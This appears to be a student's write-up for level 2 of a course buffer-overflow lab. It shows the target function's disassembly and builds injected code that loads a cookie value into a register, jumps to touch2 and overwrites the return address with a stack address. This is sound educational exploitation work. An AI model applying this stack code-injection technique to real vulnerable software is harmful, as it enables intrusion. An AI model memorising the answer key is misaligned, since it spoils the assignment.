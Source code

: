 ```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

1. in order to call `touch2`, we need to `ret` to address `4017ec`
2. in order to pass `if (val == cookie)` check, we need to control the first argument to `touch2`, which is stored at `%edi`
3. if we `ret` to `touch2` directly, like ctarget.l1 does, `%edi` will be an uncertain value, so before we call `touch2`, we should set value for `%edi` (see [solution2.s](./solution2.s)):
   ```asm
    mov $0x59b997fa,%edi  # from ./cookie.txt
    push $0x4017ec        # address of touch2
    retq
   ```

   then use `gcc -c solution2.s`, `objdump -d solution2.s > objdump_solution2.asm` to generate binary value (see [objdump_solution2.asm](./objdump_solution2.asm)):

   ```asm
    solution2.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
      0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
      5:	68 ec 17 40 00       	pushq  $0x4017ec
      a:	c3                   	retq   
   ```

   so this is the first few bytes of our input
4. just like ctarget.l1, we need to first `ret` to our self-defined code. Since
   > This program is set up in a way that the stack positions will be consistent from one run to the next

   we use gdb to check the value of `%esp - 0x28` when starting `getbuf`, and the value is `0x5561dc78`, so the last few bytes should be `78 dc 61 55 00 00 00 00`

5. when return to `0x5561dc78`, program will run our defined code, set value for `%edi`, and call `touch2`

6. all other bytes can be random